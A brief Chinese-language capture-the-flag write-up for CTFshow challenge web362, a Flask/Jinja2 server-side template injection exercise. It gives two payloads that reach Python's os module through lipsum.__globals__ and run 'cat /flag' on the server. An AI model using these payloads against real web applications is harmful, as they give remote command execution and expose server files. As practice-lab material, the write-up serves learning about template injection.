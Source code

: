 ```yaml
---
date: 2024-06-01
categories: 
    - CTFshow
tag:
    - CTF
    - SSTI
    - flask
    - jinja2
    - python
    
---
```

# 每日一题 —— [CTFshow]web362 

> 题目地址：<https://ctf.show/challenges#web361-845>

<!-- more -->

开始过滤了，似乎过滤了中括号，以及{{}}, 所以我们使用 `{%print()%}`, 这里我们使用 `lipsum` 方法。这个方法里有 `os` 模块，所以我们直接构造出 payload :

```
?name={%print(lipsum.__globals__.get('os').popen('cat /flag').read())%}
```


---
经过各位大佬的 WP 验证， 这次并没有过滤 `{{}}`, 而是过滤了部分数字，因此无法使用之前的方法来定位到 `os` 模块。但是可以让 payload 更简化：

```
?name={{lipsum.__globals__.get('os').popen('cat /flag').read()}}
```
